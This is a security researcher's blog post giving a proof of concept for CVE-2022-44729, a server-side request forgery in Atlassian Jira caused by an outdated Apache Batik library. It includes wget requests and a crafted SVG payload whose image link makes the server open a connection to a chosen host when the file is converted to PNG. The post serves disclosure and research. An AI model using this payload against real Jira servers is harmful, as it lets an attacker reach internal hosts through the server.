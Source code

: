 ```yaml
---
layout: post
title:  "CVE-2022-44729 PoC for Atlassian Jira SSRF due to Apache Batik vulnerabilites"
datetime: 2024-01-18 17:45:00 MET
last_modified_at: 2024-01-19 10:05:00 MET
author: 'psytester'
---
```


Here is my Proof of Concept for a SSRF in Atlassian Jira.

[AtlassianSecurity Bulletin - January 16 2024](https://confluence.atlassian.com/security/security-bulletin-january-16-2024-1333335615.html) points to some 3rd-party updates, e.g. CVE-2022-44729 in Apache Batik with a SSRF issue.<br>

I was not able to upload a file into Jira /images path with usage of admin webservice. But if the malicious SVG is placed by an admin in Jira /images path, an unauthenticated attacker can trigger the SSRF issue, too.

Ok let's start, take a closer look. Ohh! There are a lot of SSRF issues in [Batik vulnerability advisory.](https://xmlgraphics.apache.org/security.html)<br>
I found a write-up at [zerodayinitiative blog.](https://www.zerodayinitiative.com/blog/2022/10/28/vulnerabilities-in-apache-batik-default-security-controls-ssrf-and-rce-through-remote-class-loading) from Piotr Bazydło in Oct. 2022. Great details, thank you for that.<br>

I'm using latest V9.**4**.15 **LTS**, am I'm safe? **NO**!!!<br>
As today 18. January 2024, Batik 1.17 was released at 2023-08-22 and e.g. Jira V9.**4**.11 LTS from October 2023 up to latest V9.**4**.15 LTS from 3. January 2024 still contains Batik version 1.14 from 2021-01-20.<br>
Jira V9.**4** is EOL, just newest Jira V9.**12**.2 LTS from 10. January 2024 contains latest Batik version 1.17

Long Jira research, short goal:<br>
There is an AvatarTranscoder.class, which uses Apache Batik, but don't get confused about "Avatar". Due to the fact, that Jira user avatar or issue type can't be a SVG, this is not usable.<br>

There are three classes which are using AvatarTranscoder:
```
com.atlassian.jira.component.pico.registrar.ContainerRegistrar
com.atlassian.jira.mail.util.MailAttachments
com.atlassian.jira.web.filters.SvgToPngTranscoderFilter
```

I was not able to setup a mail notification which includes the issue attachement.content, because Jira does not support it.
No avatar nor icon SVG, no mail attachement.<br>
Time for frustration.

Back on track, why do they offer SvgToPngTranscoderFilter.class and what is it doing?
```
  private boolean needsTranscoding(HttpServletRequest request) {
    if (request.getServletPath().endsWith(".svg")) {
      String format = request.getParameter("format");
      return (StringUtils.isNotBlank(format) && "PNG".equals(format.toUpperCase()));
    } 
    return false;
  }
```

Checking they /opt/atlassian/jira/atlassian-jira/WEB-INF/web.xml
```
    <filter>
        <filter-name>svg-to-png-transcoder</filter-name>
        <filter-class>com.atlassian.jira.web.filters.SvgToPngTranscoderFilter</filter-class>
    </filter>
    ....
   <filter-mapping>
        <filter-name>svg-to-png-transcoder</filter-name>
        <url-pattern>/images/*</url-pattern>
    </filter-mapping>
```

Login into Jira page, there are some SVG images located in `/images/`<br>
`wget http://localhost:8080/images/jira-software.svg`
```
....
Länge: 9743 (9,5K) [image/svg+xml]

cat jira-software.svg
<?xml version="1.0" encoding="UTF-8"?>
<svg width="158px" height="30px" viewBox="0 0 158 30" version="1.1" xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink">
```

I'm excited when it's what I think it is by using query parameter "?**format=png**"<br>

`wget http://localhost:8080/images/jira-software.svg?format=png`<br>
`cat jira-software.svg\?format\=png`<br>
```
�PNG
```

Ok, the SVG was converted to PNG :-)

Placing my SSRF SVG image on the server, for this simple PoC it needs to be located in `/opt/atlassian/jira/atlassian-jira/images/`<br>

cat /opt/atlassian/jira/atlassian-jira/images/SSRF.svg
```
<svg xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink" width="450" height="500" viewBox="0 0 450 500">
    <image width="50" height="50" xlink:href="jar:http://localhost:4242/poc?poc=poc!/"></image>
</svg>
```

`wget http://localhost:8080/images/SSRF.svg?format=png`<br>

**BINGO!**

If host and port is not reachable, there will be an immediate HTTP 500 error.
Otherwise it depends. My remote netcat listener keeps open the connection.

![Screens Gif showing the SSRF](https://psytester.github.io/images/CVE-2022-44729_Batik_SSRF_Atlassian_Jira_SSRF.gif)


Thank you for reading. The Batik vulnerabilites CVEs are not my credit, but the work on the PoC exploit in Jira is powered by psytester, this post was only for my private fun. ;-)

# Disclaimer

The information provided is released "as is" without warranty of any kind. The publisher disclaims all warranties, either express or implied, including all warranties of merchantability. No responsibility is taken for the correctness of this information.
In no event shall the publisher be liable for any damages whatsoever including direct, indirect, incidental, consequential, loss of business profits or special damages, even if the publisher has been advised of the possibility of such damages.

The contents of this advisory are copyright (c) 2024 by psytester and may be distributed freely provided that no fee is charged for this distribution and proper credit is given.
